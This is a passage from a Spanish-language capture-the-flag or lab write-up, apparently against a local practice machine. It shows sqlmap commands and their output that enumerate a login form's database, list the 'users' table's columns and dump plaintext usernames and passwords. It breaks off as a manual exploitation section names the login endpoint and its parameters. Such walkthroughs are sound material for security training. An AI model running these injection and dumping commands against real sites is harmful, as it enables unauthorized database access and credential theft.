 Ahora extraemos las tablas de la base de datos:
```bash
sqlmap -u http://192.168.1.45/auth-login.php --forms -D Nebuchadnezzar --tables --batch
```
```
[10:45:47] [INFO] fetching tables for database: 'Nebuchadnezzar'
[10:45:47] [INFO] resumed: 'users'
Database: Nebuchadnezzar
[1 table]
+-------+
| users |
+-------+
```

una sola tabla, ahora extraemos las columans de la tabla users:
```bash
sqlmap -u http://192.168.1.45/auth-login.php --forms -D Nebuchadnezzar -T users --columns --batch
```
```
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[10:47:34] [INFO] fetching columns for table 'users' in database 'Nebuchadnezzar'
[10:47:34] [INFO] resumed: 'id'
[10:47:34] [INFO] resumed: 'int(11)'
[10:47:34] [INFO] resumed: 'username'
[10:47:34] [INFO] resumed: 'varchar(50)'
[10:47:34] [INFO] resumed: 'password'
```
columnas username y password, vamos a volcar el contenido de ellas:

```bash
sqlmap -u http://192.168.1.45/auth-login.php --forms -D Nebuchadnezzar -T users -C username,password --dump --batch
```
```
Table: users
[2 entries]
+----------+--------------------+
| username | password           |
+----------+--------------------+
| admin    | cambiame2025       |
| shelly   | F4ckTh3F4k3H4ck3r5 |
+----------+--------------------+
```

ya tenemos dos user y dos pass


## EXPLOTACIÓN MANUAL

Aquí viene la madre del cordero, no os exagero si estuve al menos una hora hasta que dí como hacerlo.

sabemos que la peticion se tiene que hacer a:
```bash
http://192.168.1.45/login.php
```
los parámetros a rellenar:
```
user
pass
```
